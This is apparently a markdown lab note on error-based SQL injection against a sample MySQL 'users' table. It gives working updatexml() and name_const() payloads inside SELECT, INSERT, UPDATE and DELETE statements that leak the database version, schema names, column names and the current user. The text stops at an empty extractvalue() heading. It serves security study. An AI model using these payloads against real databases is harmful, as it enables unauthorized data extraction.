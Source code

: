 # SQLi-select-insert-update-delete
- Create a db for the lab:
```
Create database newdb;
use newdb
CREATE TABLE users
(
id int(3) NOT NULL AUTO_INCREMENT,
username varchar(20) NOT NULL,
password varchar(20) NOT NULL,
PRIMARY KEY (id)
);
```
- Now let’s insert some sample data into our database. The syntax would be

```
insert into users (id, username, password) values (1, 'Jane', 'Eyre');
```
- Using name_const()
  
Syntax:
```
insert into users (id, username, password) values (1,"*(select*from(select(name_const(version(),1)),name_const(version(),1))a)* ", 'Eyre');
```
- Using updatexml()
  
  * The updatexml() function is an SQL function in MariaDB and MySQL commonly used to perform operations on XML data. However, when used with non-standard parameters or non-XML data, it can cause errors and this error message can sometimes display sensor information such as database version instead of . This is often leveraged in SQL injection attacks to get information from the database.
  
 - Syntax
 
  updatexml(XML_document, XPath_string, new_value)

- Syntax

  *   Select
    
    ```
    SELECT updatexml(1, concat(0x7e, database()), 0); //Dump current db name
    ```
    
    ```
    SELECT updatexml(1, concat(0x7e, (SELECT group_concat(schema_name) FROM information_schema.schemata)), 0);//Dump list of db
    ```
  * Insert:

  ```
    INSERT INTO users (id, username, password) VALUES (3, updatexml(1, concat(0x7e, (version())), 0), 'Eyre');
  ```
  *  Delete:
  ```
    DELETE FROM users WHERE id = 1 OR updatexml(1, concat(0x7e, version()), 0);
    DELETE FROM users WHERE id = 1 OR updatexml(1, '//a', updatexml(1, concat(0x7e, version()), 1))

  ```
  * Update:
  ```
    UPDATE users SET password = 'dummy'
    WHERE id = 2 AND username = 'Nervo' OR updatexml(1, concat(0x7e, version()), 0);  //Statement AND is wrong and updatexml(1, concat(0x7e, version()), 0) is alway dump error -->it True
  ```
  ```
    SET password = (SELECT updatexml(1, concat(0x7e, version()), 0))
        WHERE id = 2 AND username = 'Nervo';
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema     = database())), 0); //Dump list of comlumns
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT user())), 0); // Dump curent user
  ```
- Using extractvalue()


    
    
